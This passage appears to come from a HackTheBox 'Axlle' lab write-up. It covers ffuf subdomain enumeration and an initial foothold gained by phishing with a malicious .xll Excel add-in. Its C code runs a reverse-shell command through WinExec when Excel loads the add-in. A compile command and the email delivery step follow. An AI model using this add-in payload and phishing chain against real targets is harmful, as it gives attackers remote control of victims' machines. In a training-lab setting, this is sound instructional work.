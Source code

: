 ```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://axlle.htb -H "Host: FUZZ.axlle.htb" -ic -fs 10228
```

![subdomain enumeration attempt](/images/HTB-Axlle/ffuf_axlle.png)

## Initial Foothold

Previously we learned that the attachments we send to `accounts@axlle.htb` have to be in excel format, but we cannot make use of macros since they are disabled. Another way to create phishing emails is by using `xll` files. 

> `.xll` files are Excel Add-In files used to extend the functionality of Microsoft Excel.

On [this website](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec) we find an exploit called `XLL - EXEC` which we can use to gain a reverse shell by sending an email with a `.xll` attachmnent. The first step is to add a reverse shell to the exploit. 

```C
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("PowerShell#3 from revshells.com", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Then we compile the C program into a shared library.

```
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll phishing.c -luser32
```

![xll compilation](/images/HTB-Axlle/xll_compilation.png)


Finally we send the email with [swaks](https://github.com/jetmore/swaks).

![phishing email sent](/images/HTB-Axlle/phishing_email.png)
